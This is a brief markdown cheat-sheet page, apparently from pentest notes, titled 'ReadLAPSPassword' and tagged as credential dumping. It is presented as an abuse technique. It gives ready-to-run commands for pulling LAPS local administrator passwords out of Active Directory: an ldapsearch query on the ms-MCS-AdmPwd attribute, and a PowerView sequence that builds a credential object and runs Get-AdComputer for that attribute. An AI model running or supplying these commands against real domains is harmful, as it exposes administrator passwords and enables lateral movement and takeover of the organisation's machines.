 ```yaml
---
title: "ReadLAPSPassword"
date: 2024-7-30
tags: ["Credential Dumping", "Powerview", "ReadLAPSpassword", "Active Driectory", "Windows", "LAPS"]
---
```


### Abuse #1: Read LAPS Password

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
ldapsearch -h <TARGET> -b 'DC=<EXAMPLE>,DC=<COM>' -x -D <USER>@<TARGET> -w '<PASSWORD>' '(ms-MCS-AdmPwd=*)' ms-MCS-AdmPwd
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Import PowerView

```console
. .\PowerView.ps1
```

#### 2. Create a cred object (runas) \[optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Read LAPS password

```console
Get-AdComputer -Filter * -Properties ms-Mcs-AdmPwd -Credential $cred
```

{{< /tabcontent >}}
